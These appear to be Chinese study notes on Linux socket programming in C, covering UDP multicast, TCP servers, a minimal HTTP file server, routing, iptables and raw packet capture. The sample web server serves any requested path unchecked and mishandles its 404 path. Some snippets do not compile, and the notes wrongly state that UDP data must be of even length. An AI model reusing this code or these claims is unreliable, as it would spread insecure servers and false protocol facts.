    int yes = 1;
    setsockopt(sockfd, SOL_SOCKET, SO_BROADCAST, &yes, sizeof(int));

    // 发送广播数据
    struct sockaddr_in dst_addr;
    // memset(&dst_addr,0,sizeof(dst_addr));
    //bzero与memset(&dst_addr,0,sizeof(dst_addr));功能相同
    bzero(&dst_addr, sizeof(dst_addr));
    dst_addr.sin_family = AF_INET;
    dst_addr.sin_port = htons(8000);
    inet_pton(AF_INET, "10.9.11.255", &dst_addr.sin_addr.s_addr);

    sendto(sockfd, "broadcast msg", strlen("broadcast msg"), 0,
           (struct sockaddr *)&dst_addr, sizeof(dst_addr));

    close(sockfd);
}
```

## UDP多播

### 概述

多播：数据的收发仅仅在同一分组中进行 

多播的特点： 

- 多播地址标示一组接口 
- 多播可以用于广域网使用
- 在IPv4中，多播是可选的



### 多播地址

多播IP地址范围：224.0.0.1 ~ 239.255.255.254

多播mac地址映射：






**不完备硬件过滤**：



这时往224.0.0.1发送数据两个都能收到

**基于IP地址的完备软件过滤**：

尽管mac有时过滤不了，但是在网络层由于ip不同也会被直接丢弃掉

### 多播地址结构体

```c
struct in_addr{
    in_addr_t s_addr ;
} ;
struct ip_mreq {
    struct in_addr imr_multiaddr; //多播组工P
    struct in_addr imr_interface;//将要添加到多播组的IP
}
```

### 设置多播setsockopt

```c
int setsockopt(int sockfd, int level,int optname,  const void *optval, socklen_t optlen);
```

参数：

| level      | optname            | 说明       | optlen类型 |
| ---------- | ------------------ | ---------- | ---------- |
| IPPROTO_IP | IP_ADD_MEMBERSHIP  | 加入多播组 | ip_mreq{}  |
| IPPROTO_IP | IP_DROP_MEMBERSHIP | 离开多播组 | ip_mreq{}  |

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
int main(int argc, char const *argv[])
{
    // 创建一个udp套接字
    int sockfd = socket(AF_INET, SOCK_DGRAM, 0);

    // bind绑定固定端口
    struct sockaddr_in my_addr;
    bzero(&my_addr, sizeof(my_addr));
    my_addr.sin_family = AF_INET;
    my_addr.sin_port = htons(8000);
    my_addr.sin_addr.s_addr = htonl(INADDR_ANY);
    bind(sockfd, (struct sockaddr *)&my_addr, sizeof(my_addr));

    // 使用setsockopt函数加入224.0.0.2多播组中
    struct ip_mreq mreq;
    // inet_pton(AF_INET,"224.0.0.2",&mreq.imr_multiaddr.s_addr);
    // 使用inet_addr可以更便捷
    mreq.imr_multiaddr.s_addr = inet_addr("224.0.0.2");  // 多播组IP
    mreq.imr_interface.s_addr = inet_addr("192.168.3.107"); // 加入多播组的IP
    setsockopt(sockfd, IPPROTO_IP, IP_ADD_MEMBERSHIP, &mreq, sizeof(struct ip_mreq));

    // 接收多播组的消息
    while (1)
    {
        unsigned char buf[1500] = "";
        recvfrom(sockfd, buf, sizeof(buf), 0, NULL, NULL);
        printf("%s\n", buf);
    }

    close(sockfd);

    return 0;
}
```

## UDP组播

## TCP客户端

面向连接的传输层协议，有序号和确认序号，失败重传，排序检错，不支持广播，多用于 大文件传输。

**TCP 的服务器是被动连接，TCP客户端是主动连接**。

**TCP-C/S架构**：



### 创建TCP套接字

```c
int sockfd=socket(AF_INET,SOCK_STREAM,0);
if(sockfd<0)
{
    perror("socket");
    return0;
}
```

### connect连接服务器

```c
int connect(int sockfd, const struct sockaddr *addr,socklen_t len）;
```

功能： 

- 主动跟服务器建立链接 

参数： 

- sockfd：socket套接字 
- addr:连接的服务器地址结构 
- len：地址结构体长度 

返回值： 

- 成功：0
- 失败：其他

```c
struct sockaddr_in ser_addr;
bzero(&ser_addr,sizeof(ser_addr));
ser_addr.sin_family=AF_INET;
ser_addr.sin_port=htons(8000);//服务器的port
ser_addr.sin_addr.s_addr=inet_addr("10.9.72.150");//服务器的IP
int ret=connect(sockfd,(structsockaddr*)&ser_addr,sizeof(ser_addr));
if(ret!=0)
{
    perror("connect");
    close(sockfd);
    return 0;
}
```

### send发送TCP消息

```c
ssize_tsend(int sockfd,const void *buf,size_t nbytes,int flags);
```

功能：

-  用于发送数据

 参数：

-  sockfd：已建立连接的套接字
-  buf：发送数据的地址 
- nbytes:发送缓数据的大小(以字节为单位) 
- flags:套接字标志(常为0) 

返回值：

- 成功发送的字节数 

头文件： 

```c
#include <sys/socket.h>
```

注意： ==**<span style="color:red">不能用TCP协议发送0长度的数据包</span>**==.

### recv接收TCP消息

```c
ssize_t recv(int sockfd,void *buf,size_t nbytes,int flags);
```

功能： 

- 用于接收网络数据 

参数： 

- sockfd：套接字 
- buf:接收网络数据的缓冲区的地址 
- nbytes:接收缓冲区的大小(以字节为单位) 
- flags:套接字标志(常为0) 

返回值： 

- 成功接收到字节数 
- **==如果客户端断开，那么会返回0==**.

头文件： 

```c
#include <sys/socket.h>
```

### tcp客户端

```c
#include<stdio.h>
#include<sys/socket.h>//socket
#include<unistd.h> //close
#include<string.h> //bzero
#include<netinet/in.h>//structsockaddr_in
#include<arpa/inet.h> //inet_pton
#include<stdlib.h> //atoi
intmain(intargc,charconst*argv[])
{
    //1、创建TCP套接字
    int sockfd=socket(AF_INET,SOCK_STREAM,0);
    if(sockfd<0)
    {
        perror("socket");
        return 0;
    }
    //2、connect连接TCP服务器
    struct sockaddr_in ser_addr;
    bzero(&ser_addr,sizeof(ser_addr));
    ser_addr.sin_family=AF_INET;
    ser_addr.sin_port=htons(8000); //服务器的port
    ser_addr.sin_addr.s_addr=inet_addr("10.9.72.150");//服务器的IP
    int ret=connect(sockfd,(structsockaddr*)&ser_addr,sizeof(ser_addr));
    if(ret!=0)
    {
        perror("connect");
        close(sockfd);
        return 0;
    }
    //3、先发送数据给服务器
    send(sockfd,"hellotcp",strlen("hellotcp"),0);
    //4、接收服务器的应答
    unsigned char buf[128]="";
    int len=recv(sockfd,buf,sizeof(buf),0);
    printf("len=%d buf=%s\n", len,buf);
    //关闭套接字
    close(sockfd);
    return 0;
}
```

## TCP服务器

### listen 让服务器具备监听功能

```c
int listen(int sockfd,int backlog);
```

功能：

-  将套接字由主动修改为被动 
- 使操作系统为该套接字设置一个连接队列，用来记录所有连接到该套接字的连接 【用来缓冲，当队列满时，后续连接无法正常连接】

参数： 

- sockfd：socket监听套接字 
- backlog：连接队列的长度 

返回值： 

- 成功：返回0 
- 失败：其他

头文件：

```c
#include<sys/socket.h>
```

### 服务必须使用accpet提取完成的连接和客户端通信

```c
int accept(int sockfd,struct sockaddr *cliaddr,socklen_t *addrlen);
```

功能： 

- 从已连接队列中取出一个已经建立的连接，如果没有任何连接可用，则进入睡眠等待(阻 塞) 
- 一次只能提取一个客户端通信

参数： 

- sockfd：socket监听套接字 
- cliaddr:用于存放客户端套接字地址结构 
- addrlen：套接字地址结构体长度的地址 

返回值： 

- 已连接套接字（不同于服务器监听套接字，这个才是代表服务器和客户端的通信端点） 

头文件： 

```c
#include<sys/socket.h>
```

**注意**： 

- 返回的是一个已连接套接字，这个套接字代表当前这个连接



## ECHO并发服务器（线程）

ECHO服务器：服务器收到什么就返回什么

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <pthread.h>
// 服务器处理客户端线程（ECHO服务器：服务器收到什么就返回什么）
void *fun(void *arg)
{
    int sock_id = *(int *)arg;
    while (1)
    {
        unsigned char buf[1024] = "";
        // 接收客户端数据(如果客户端断开，服务器会收到0长度报文)
        int len = recv(sock_id, buf, sizeof(buf), 0);
        if(len==0){
            printf("退出\n");
            break;
        }
        send(sock_id, buf, len, 0);
    }

    return NULL;
}

int main(int argc, char const *argv[])
{

    // 创建一个udp套接字
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

    // 给服务器绑定固定端口
    struct sockaddr_in my_addr;
    bzero(&my_addr, sizeof(my_addr));
    my_addr.sin_family = AF_INET;
    my_addr.sin_port = htons(8000);
    my_addr.sin_addr.s_addr = htonl(INADDR_ANY);
    int ret = bind(sockfd, (struct sockaddr *)&my_addr, sizeof(my_addr));
    if (ret != 0)
    {
        printf("ret\n");
        perror("ret");
        close(sockfd);
        return 0;
    }

    // 对套接字进行监听，连接队列容量为10
    int lisRet = listen(sockfd, 10);
    if (lisRet != 0)
    {
        printf("lisRet\n");
        perror("lisRet");
        close(sockfd);
        return 0;
    }

    while (1)
    {
        // 提取客户端连接，得到连接套接字用以和客户端通讯
        struct sockaddr_in recAddr;
        socklen_t recLen = sizeof(recAddr);
        bzero(&recAddr, recLen);
        int sockeRec = accept(sockfd, (struct sockaddr *)&recAddr, &recLen);
        if (sockeRec < 0)
        {
            printf("sockeRec\n");
            perror("sockeRec");
            continue;
        }

        unsigned short port = ntohs(recAddr.sin_port);
        char ip[16] = "";
        inet_ntop(AF_INET, &recAddr.sin_addr.s_addr, ip, 16);
        printf("客户端%s:%hu ,%d\n", ip, port, sockeRec);

        // 创建线程并发处理
        pthread_t tid;
        pthread_create(&tid, NULL, fun, &sockeRec);
        pthread_detach(tid);
    }
    close(sockfd);
    return 0;
}
```

### TCP服务器的端口复用

默认的情况下，如果一个网络应用程序的一个套接字绑定了一个端口(占用了8000 )，这时候。别的套接字就无法使用这个端口( 8000 ）
**端口复用**:允许在一个应用程序可以把n个套接字绑在一个端口上而不出错

```c
//因为是端口占用，而导致了绑定失败，所以端口复用要在绑定之前设置
int opt=1;
setsockopt(sockfd,SOL_SOCKET,SO_REUSEADDR,&opt,sizeof(opt));
```

## TCP的三次握手和四次挥手

### TCP的三次握手

**完成建立连接**

是客户端应用层调用connect 连接服务器 底层发生了3次握手动作

TCP 的协议格式：






ACK:

- 确认序号（希望对方下一次发送报文的编号（SEQ）)
- 等于上一次对方报文的序号+上一次对方数据长度(如果长度为0则只+1)

总结：

- listen函数在服务器端被调用以监听来自客户端的连接请求

- 第一次握手 : 客户端调用connect发出SYN
- 第二次握手: 服务器发出SYN,ACK
- 第三次握手: 客户端发出ACK

### TCP的四次挥手

**完成关闭连接**



## tcp的12种状态



1. **ESTABLISHED**：套接字已建立连接 
2. **SYN_SENT**： 套接字正在积极地尝试建立连接 
3. **SYN_RECV** ：从网络接收到一个连接请求 
4. **FIN_WAIT1** ：套接字已关闭，连接正在关闭 
5. **FIN_WAIT2** ：连接已关闭，套接字正在等待远程端关闭 
6. **TIME_WAIT**： 套接字关闭后等待处理仍在网络中的数据包 
7. **CLOSE** ：套接字没有被使用 
8. **CLOSE_WAIT** ：远程端已经关闭，等待套接字关闭 
9. **LAST_ACK** ：远程端关闭，套接字关闭。等待确认 
10. **LISTEN** ：套接字正在侦听传入的连接 
11. **CLOSING** ：两个套接字都关闭了，但我们仍然没有发送所有的数据

## 多进程的TCP并发服务器

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <pthread.h>
#include <wait.h>
int sockfd;
// 服务器处理客户端线程（ECHO服务器：服务器收到什么就返回什么）
void *fun(void *arg)
{
    int sock_id = *(int *)arg;
    while (1)
    {
        unsigned char buf[1024] = "";
        // 接收客户端数据(如果客户端断开，服务器会收到0长度报文)
        int len = recv(sock_id, buf, sizeof(buf), 0);
        if (len == 0)
        {
            printf("退出\n");
            break;
        }
        send(sock_id, buf, len, 0);
    }

    return NULL;
}


void deal_exit(int sig){
    printf("关闭父进程套接字");
    close(sockfd);
}

int main(int argc, char const *argv[])
{

    // 创建一个udp套接字
    sockfd = socket(AF_INET, SOCK_STREAM, 0);

    // 给服务器绑定固定端口
    struct sockaddr_in my_addr;
    bzero(&my_addr, sizeof(my_addr));
    my_addr.sin_family = AF_INET;
    my_addr.sin_port = htons(8000);
    my_addr.sin_addr.s_addr = htonl(INADDR_ANY);
    int ret = bind(sockfd, (struct sockaddr *)&my_addr, sizeof(my_addr));
    if (ret != 0)
    {
        printf("ret\n");
        perror("ret");
        close(sockfd);
        return 0;
    }

    // 对套接字进行监听，连接队列容量为10
    int lisRet = listen(sockfd, 10);
    if (lisRet != 0)
    {
        printf("lisRet\n");
        perror("lisRet");
        close(sockfd);
        return 0;
    }

    //注册信号,监听用户按下的组合键
    signal(SIGINT,deal_exit);
    while (1)
    {
        // 提取客户端连接，得到连接套接字用以和客户端通讯
        struct sockaddr_in recAddr;
        socklen_t recLen = sizeof(recAddr);
        bzero(&recAddr, recLen);
        int sockeRec = accept(sockfd, (struct sockaddr *)&recAddr, &recLen);
        if (sockeRec < 0)
        {
            printf("sockeRec\n");
            perror("sockeRec");
            continue;
        }

        unsigned short port = ntohs(recAddr.sin_port);
        char ip[16] = "";
        inet_ntop(AF_INET, &recAddr.sin_addr.s_addr, ip, 16);
        printf("客户端%s:%hu ,%d\n", ip, port, sockeRec);

        // 创建进程程并发处理
        pid_t pid = fork();
        if (pid > 0)
        {
            // 由于复制过来了已连接套接字，导致父进程进程也在连接，所以要关闭
            close(sockeRec);
            printf("父进程\n");
            while(1){
                int num=waitpid(-1,NULL,WNOHANG);
                if(num>0){
                    printf("子进程退出num=%d\n",num);
                }else if(num==-1){
                    printf("所有子进程退出\n");
                    break;
                }
            }

        }
        else if (pid == 0)
        {
            printf("子进程pid=%d\n", pid);
            // 由于复制过来了监听套接字，导致子进程也在监听，所以要关闭
            close(sockfd);
            // 子进程服务客户端功能
            fun(&sockeRec);

            // 关闭以连接套接字
            close(sockeRec);
            _exit(-1);
        }
    }
    close(sockfd);
    return 0;
}
```

## web服务器

### 概述

使用HTTP协议与客户机浏览器进行信息交流.（HTTP基于TCP）

### HTTP协议

负责浏览器和服务器的通信的协议。

特点：

- 支持C/S架构 
- 简单快速：客户向服务器请求服务时，只需传送请求方法和路径，常用方法:GET、 POST 
- 无连接：限制每次连接只处理一个请求 
- 无状态：即如果后续处理需要前面的信息，它必须重传，这样可能导致每次连接传送的 数据量会增大

### HTTP协议的通信流程



### web服务器

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <pthread.h>
#include <wait.h>
int sockfd;
char head[] = "HTTP/1.1 200 OK\r\n"
    "Content-Type:text/html\r\n"
    "\r\n";
char err[] = "HTTP/1.1 404 Not Found\r\n"
    "Content-Type:text/html\r\n"
    "\r\n"
    "<HTML><BODY>Filenotfound</BODY></HTML>\r\n";
// 服务器处理客户端线程（ECHO服务器：服务器收到什么就返回什么）
void *fun(void *arg)
{
    int sock_id = *(int *)arg;
    // 获取浏览器请求，因为浏览器每次连接支持一次请求，所以不需要写到while中
    unsigned char buf[1024] = "";
    int len = recv(sock_id, buf, sizeof(buf), 0);
    if (len == 0)
    {
        printf("退出\n");
        return NULL;
    }
    // 解析buf的内容,明确浏览器需要啥文件
    char file_name[512] = "./";
    sscanf(buf, "GET /%s", file_name + 2); // 意思为解析添加的首地址为file_name末尾，因为file_name原本彩度只有2

    if (file_name[2] == '\0')
    {
        strcpy(file_name + 2, "index.html");
    }

    int fd = open(file_name, O_RDONLY);
    if (fd < 0)
    {
        // 发送404
        send(sock_id, err, strlen(err), 0);
        close(sockfd);
    }
    // 发送200
    send(sock_id, head, strlen(head), 0);

    // 不停的读取本地文件 发送给浏览器
    while (1)
    {
        unsigned char buf[512] = "";
        int len = read(fd, buf, sizeof(buf));
        send(sock_id, buf, len, 0);
        if (len < 512)
        {
            close(fd);
            break;
        }
    }

    close(sockfd);

    return NULL;
}


int main(int argc, char const *argv[])
{

    // 创建一个udp套接字
    sockfd = socket(AF_INET, SOCK_STREAM, 0);

    int opy = 1;
    setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &opy,sizeof(opy));

    // 给服务器绑定固定端口
    struct sockaddr_in my_addr;
    bzero(&my_addr, sizeof(my_addr));
    my_addr.sin_family = AF_INET;
    my_addr.sin_port = htons(8000);
    my_addr.sin_addr.s_addr = htonl(INADDR_ANY);
    int ret = bind(sockfd, (struct sockaddr *)&my_addr, sizeof(my_addr));
    if (ret != 0)
    {
        perror("ret");
        close(sockfd);
        return 0;
    }

    // 对套接字进行监听，连接队列容量为10
    int lisRet = listen(sockfd, 10);
    if (lisRet != 0)
    {
        close(sockfd);
        return 0;
    }


    while (1)
    {
        // 提取客户端连接，得到连接套接字用以和客户端通讯
        struct sockaddr_in recAddr;
        socklen_t recLen = sizeof(recAddr);
        bzero(&recAddr, recLen);
        int sockeRec = accept(sockfd, (struct sockaddr *)&recAddr, &recLen);
        if (sockeRec < 0)
        {
            perror("sockeRec");
            continue;
        }

        unsigned short port = ntohs(recAddr.sin_port);
        char ip[16] = "";
        inet_ntop(AF_INET, &recAddr.sin_addr.s_addr, ip, 16);
        // 创建进程程并发处理
        pid_t pid = fork();
        if (pid > 0)
        {
            // 由于复制过来了已连接套接字，导致父进程进程也在连接，所以要关闭
            close(sockeRec);
            while (1)
            {
                int num = waitpid(-1, NULL, WNOHANG);
                if (num > 0)
                {
                    printf("子进程退出num=%d\n", num);
                }
                else if (num == -1)
                {
                    printf("进程退出\n");
                    break;
                }
            }
        }
        else if (pid == 0)
        {
            // 由于复制过来了监听套接字，导致子进程也在监听，所以要关闭
            close(sockfd);
            // 子进程服务客户端功能
            fun(&sockeRec);

            // 关闭以连接套接字
            close(sockeRec);
            _exit(-1);
        }
    }
    close(sockfd);
    return 0;
}
```

## 网络通讯的过程



### 配置主机IP



### 使用计算机的终端



### ARP协议的工作流程（重要）

数据从应用层到达传输层（封装端口）---->网络层（封装IP）--->链路层（封装mac）。

1. 先查看自身主机的arp表中是否记录了目的IP对应的目的mac。（如果记录了就直接 将目的mac地址封装在mac报文中）
2. 如果arp表中没有记录目的mac地址：立即使用arp协议==**广播**==目的IP主机（询问对 方的MAC地址）
3. 目的主机收到ARP请求后 将mac地址单播回应对方。
4. 自身主机分析单播报文中的源mac，得到目的主机的mac地址，更新ARP表，封装 mac 报文，继续传输。

### 集线器HUB

集线器工作在==**物理层**==，<span style="color:red">数据到达集线器会被**广播**至与当前集线器相连的所有设备上</span>。 

设备**共享**集线器的带宽。

 功能：整形放大【在数据传输的过程中，信号会收到外界影响，导致衰弱，集线器就用于放大信号，并修补放大后信号的变形】

### 交换机

交换机核心功能：==扩展网络接口==，在**数据链路层（二层交换机）**。

- TTL：报文的生存时间，每经过一个路由器，TTL值就会减1，直到TTL值为0报文被丢弃。
  - 比如：TTL=128,单向经过3个路由器，这时TTL为125

- 交换机同一时刻只能保持一条通路连接，用于独享带宽【看起来都在连接，是因为是通过时间片轮转的】

- 交换机是独享带宽。
- 三层交换机：划分网段的功能（比如：VLAN） 
- 四层交换机：端口映射的功能。



### 路由器

- 路由器是不同网段通信的桥梁。
- 工作在**网络层**。
- 网关：进出局域网的网络接口，和当前局域网是同一个子网。

#### 路由器的工作流程

1. 数据到达网络层，发现目的IP是外网，这时主机就会将数据转发到网关

2. 数据到达链路层，从arp表中查找网关的mac地址（如果没有，使用arp广播得到网关 的mac）,src_mac【源mac】=主机 mac，dst_mac【目的mac】=网关的mac，将数据发送到网关。

3. 路由器的网关收到数据，**分析目的IP所在的网段是否和当前路由器的==某一个网卡==的网段是同一个网段**。

   - 是：src_mac=路由器网卡的mac、dst_mac=目的主机的mac，将数据直接从路由器的这块网卡发送给目的主机 

   - 否：
     - 查找路由表（记录的是目的IP 需要转发的下一跳IP），获取下一跳的IP，
     - 然后查找当前路由器的某块网卡和下一跳是同一个网段，那么该数据就从这块网卡发送至下一跳 （src_mac=网卡的 mac，dst_mac=下一跳的mac）,下一跳的路由器重复上面的步骤，直到 到达目的主机。

 注意：

- mac 地址的变化，描述的是帧数据从一个设备到达另一个设备。
- IP不变，描述的是发 送方和接收方。

#### 路由器的IP配置



#### 配置主机的网关

完成路由以及主机的ip配置u以后，由`192.168.1.1` ping`192.168.3.2`

发现报文无法发送，原因：此处目的ip 是3.0 与 当前局域网1.0网段的不同，不是一个局域网，也就是报文是要从当前局域网发送出去，才能找到目的主机，而离开局域网需要经过网关，由于没有设置网关，所以找不到而无法发送



#### 路由表



#### 为路由器添加一块网卡






### 访问web服务器的流程【DNS】

DNS服务器：根据输入的url返回对应的web服务的ip地址



**为主机配置DNS服务器ip**



## Linux防火墙

防火墙被定义成一个或一组设备，它在网络之间执行访问控制策略。

**防火墙的分类**：

- 硬件防火墙
- 软件防火墙

**防火墙最重要的任务**：

- 切割被信任(如子域)与不被信任(如Internet)的网段
- 划分出可提供Internet的服务与必须受保护的服务 
- 分析出可接受与不可接受的数据包状态

### iptables防火墙规则指令



### iptables 的表格与链

iptables 有多个表格(table)。

而每个表格又有多个链(chain)



Filter(过滤器):与本机数据有关 

- INPUT:主要与想要进入Linux本机的数据包有关 
- OUTPUT:主要与Linux本机所要送出的数据包有关 
- FORWARD:与本机无关，传送数据到后端的计算机中 

NAT(地址转换)：主要用来进行来源和目的地的ip或port的转换 

- PREROUTING:在进行路由判断之前所要进行的规则 
- POSTROUTING:在进行路由判断之后所要进行的规则
-  OUTPUT:与发出去的数据包有关 

Mangle(破坏者):

- 主要与特殊的数据包的路由标志有关(很少使用

### iptable的规则

#### 规则的查看

`iptables [-t tables] [-L] [-nv]`

- -t:后面接table，例如nat或filter,若省略则使用filter
- -L:列出目前的table的规则
- -n:不进行IP与HOSTNAME的反查，这样显示速度快
- -v:列出更多的信息(数据包的位数、相关的网络接口) 

iptables-save 会列出完整的防火墙规则(推荐)

#### 规则的清除

`iptables [-t tables] [-FXZ]`

- -F:清除所有已定制的规则
- -X:除掉所有用户"自定义"的chain
- -Z:将所有的chain的计数与流量统计都归零

#### 定义默认策略(policy)

 `iptables [-t nat]-p [INPUT,OUTPUT,FORWARD] [ACCEPT,DROP]`

- -P:定义策略(Policy),P 为大写 

- ACCEPT:该数据包可接受 

- DROP：该数据包直接丢弃，不会让client知道为何丢

- ```
  iptables -p INPUT ACCEPT
  ```

例：将本机的INPUT设置为DROP，其他设置为ACCEPT注意先清除所有规则

#### 网络及接口设备的防火墙设置



```
iptables -A INPUT -i lo -j ACCEPT
```

```
只要来自内网的(172.20.223.0/24)的数据包都接受
iptables -A INPUT -i eth0 -s 172.168.223.0/24 -j ACCEPT


只要是来自172.20.223.32就接受，
iptables -A INPUT -i eth0 -s 172.168.223.32 -j ACCEPT

但是来自172.20.223.91的数据丢弃
iptables -A INPUT -i eth0 -s 172.168.223.92 -j DROP
```

#### 针对端口的防火墙设置



```
想连接到本机的udp port 137,138、 tcp port 139,445 就放行
iptables -A INPUT -i eth0 -p udp --dport 137:138 -j ACCEPT

iptables -A INPUT -i eth0 -p tcp --dport 139 -j ACCEPT
iptables -A INPUT -i eth0 -p tcp --dport 445 -j ACCEPT
```

#### 对 mac与state 的防火墙



```
只要已建立或相关封包就予以通过，只要是不合法封包就丢弃
iptables -A INPUT -m state  --state RELATED,ESTABLISHED -j ACCEPT

iptables -A INPUT -m state  --state INVALID -j DROP
```

```
针对局域网络内的aa:bb:cc:dd:ee:ff 放行
iptables -A INPUT -m mac  --mac-source aa:bb:cc:dd：ee:ff -j DROP
```

设置单机防火墙实例：

 超简单的客户端防火墙（实例）

- 规则归零：清除所有已经存在的规则 
- 默认策略：除了INPUT这个自定义链设为DROP外，其他为预设ACCEPT 
- 信任本机：由于lo对本机来说是相当重要的，因此lo必须设定为信任装置 
- 回应数据包：让本机主动向外要求而响应的封包可以进入本机 (ESTABLISHED,RELATED) 
- 信任用户：这是非必要的，如果你想要让区网的来源可用你的主机资源

## 原始套接字

原始套接字(SOCK_RAW)

- 一种不同于socK_STREAM、SOCK_DGRAM的套接字.它存在于系统核心
- 可以接收本机网卡上所有的数据帧（数据包）对于监听网络流量和分析网络数据很有作用
- 开发人员可发送自己组装的数据包到网络上

几种套接字的区别：

- 流式套接字只能收发
  - TCP协议的数据
- 数据报套接字只能收发
  - UDP协议的数据
- 原始套接字可以收发
  - 任何协议
  - 内核没有处理的数据包，因此要访问其他协议
  - 发送的数据需要使用，原始套接字(SOCK_RAW)

### 创建原始套接字

```c
#include<sys/socket.h>
#include<netinet/ether.h>
//PF_PACKET:链路层报文编程，固定值，直接当作参数即可
//SOCK_RAW：原始套接字，固定值，直接当作参数即可
int socket(PF_PACKET, SOCK_RAW, protocol)
```

功能： 

- 创建链路层的原始套接字 

参数： 

- protocol：指定可以接收或发送的数据包类型
  - **ETH_P_IP** : IPV4 数据包 
  - **ETH_P_ARP** : ARP 数据包 
  - **ETH_P_ALL** : 任何协议类型的数据包 

返回值： 

- 成功(>0): 链路层套接字 
- 失败(<0) :出错

### 协议类型

在TCP/IP 协议栈中的每一层为了能够正确解析出上层的数据包，从而使用一些“协议类型” 来标记，详细如下图:



### 各类封包格式

#### UDP封包格式



1. **源端口号**：发送方端口号 

2. **目的端口号**：接收方端口号 

3. **长度**：UDP用户数据报的长度，最小值是8（仅有首部） 

4. **校验和**：检测UDP用户数据报在传输中是否有错，有错就丢弃

5. **数据**：UDP的数据长度，==**必须为偶数**==，如果不是需要加一。

   - ```c
     //可以按照下方方式处理
     int data_len = strlen(data)+strlen(data)%2;
     ```

#### IP封包格式



其中==首部长度==明明只有4位，而首部实际最小也有20字节

4位的范围为 0000~1111，也就是0~15，无法表示20字节

那是因为==首部长度==中的单位 是 **4字节**，即当从==首部字节==中取出`0001`时表示的长度是 1*4=4字节，而为什么是 **4字节**，是因为在报文头部中，一行正好是4字节，所以==首部长度==实际记录是行数

**详细解析**：

1. **版本**：IP协议的版本。通信双方使用过的IP协议的版本必须一致，目前最广泛使用的IP协议版本号为 2 4（即IPv4 )

2. **首部长度**：单位是32位（4字节） 

3. **服务类型**：一般不适用，取值为0。前3位：优先级，第4-7位：延时，吞吐量，可靠性，花费。第8 位保留 

4. **总长度**：指首部加上数据的总长度，单位为字节。最大长度为65535字节。 

5. **标识（identification）**：用来标识主机发送的每一份数据报。IP软件在存储器中维持一个计数器，每产生一个数据报，计数器就加1，并将此值赋给标识字段。 

6. **标志（flag）**：目前只有两位有意义。 

   -  标志字段中的最低位记为MF。MF=1即表示后面“还有分片”的数据报。MF=0表示这已是若干数据 报片中的最后一个。 

   - 标志字段中间的一位记为DF，意思是“不能分片”，只有当DF=0时才允许分片 

7. **片偏移**：指出较长的分组在分片后，某片在源分组中的相对位置，也就是说，相对于用户数据段的 起点，该片从何处开始。片偏移以8字节为偏移单位。

8. **生存时间**：TTL，表明是数据报在网络中的寿命，即为“跳数限制”，由发出数据报的源点设置这个字 段。路由器在转发数据之前就把TTL值减一，当TTL值减为零时，就丢弃这个数据报。通常设置为32、 64、128。 

9. **协议**：指出此数据报携带的数据时使用何种协议，以便使目的主机的IP层知道应将数据部分上交给 哪个处理过程，常用的ICMP(1),IGMP(2),TCP(6),UDP(17),IPv6（41） 

10.  **首部校验和**：只校验数据报的首部，不包括数据部分。

11. **源地址**：发送方IP地址 

12. **目的地址**：接收方IP地址 

13. **选项**：用来定义一些任选项；如记录路径、时间戳等。这些选项很少被使用，同时并不是所有主机 和路由器都支持这些选项。一般忽略不计。

#### ethernet封包格式



#### TCP封包格式



**详细解析**：

1. **源端口号**：发送方端口号 
2. **目的端口号**：接收方端口号 
3. **序列号**：本报文段的数据的第一个字节的序号
4. **确认序号**：期望收到对方下一个报文段的第一个数据字节的序号
5. **首部长度（数据偏移）**：TCP报文段的数据起始处距离TCP报文段的起始处有多远，即首部长度。单 位：32位，即以4字节为计算单位。 
6. **保留**：占6位，保留为今后使用，目前应置为0 
7. **紧急URG**: 此位置1，表明紧急指针字段有效，它告诉系统此报文段中有紧急数据，应尽快传送 
8. **确认ACK**: 仅当ACK=1时确认号字段才有效，TCP规定，在连接建立后所有传达的报文段都必须把ACK 置1 
9. **推送PSH**：当两个应用进程进行交互式的通信时，有时在一端的应用进程希望在键入一个命令后立即 就能够收到对方的响应。在这种情况下，TCP就可以使用推送（push）操作，这时，发送方TCP把PSH 置1，并立即创建一个报文段发送出去，接收方收到PSH=1的报文段，就尽快地（即“推送”向前）交 付给接收应用进程，而不再等到整个缓存都填满后再向上交付 
10. **复位RST**: 用于复位相应的TCP连接 
11. **同步SYN**: 仅在三次握手建立TCP连接时有效。当SYN=1而ACK=0时，表明这是一个连接请求报文段， 对方若同意建立连接，则应在相应的报文段中使用SYN=1和ACK=1.因此，SYN置1就表示这是一个连接请 求或连接接受报文 
12. **终止FIN**：用来释放一个连接。当FIN=1时，表明此报文段的发送方的数据已经发送完毕，并要求释 放运输连接。 
13. **窗口**：指发送本报文段的一方的接收窗口（而不是自己的发送窗口） 
14. **校验和**：校验和字段检验的范围包括首部和数据两部分，在计算校验和时需要加上12字节的伪头部 
15. **紧急指针**：仅在URG=1时才有意义，它指出本报文段中的紧急数据的字节数（紧急数据结束后就是 普通数据），即指出了紧急数据的末尾在报文中的位置，注意：即使窗口为零时也可发送紧急数据 
16. **选项**：长度可变，最长可达40字节，当没有使用选项时，TCP首部长度是20字节

#### ICMP封包格式



## recvfrom接收链路层帧数据【解包】

### 解包mac_type和目标地址以及源地址

```c
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ether.h>
#include <arpa/inet.h>
#include <unistd.h>
int main(int argc, char const *argv[])
{
    // 创建原始套接字
    int sockfd = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
    if (sockfd < 0)
    {
        perror("sockfd");
        return 0;
    }

    while (1)
    {
        unsigned char buf[1500] = "";
        //不断的获取网络上的数据包
        int len = recvfrom(sockfd, buf, sizeof(buf), 0, NULL, NULL);
        //------分析链路层数据------
        // AA:BB:CC:DD:EE:FF 加上\0长度为18
        char src_mac[18] = "";
        char dst_mac[18] = "";

        unsigned short mac_type = 0;
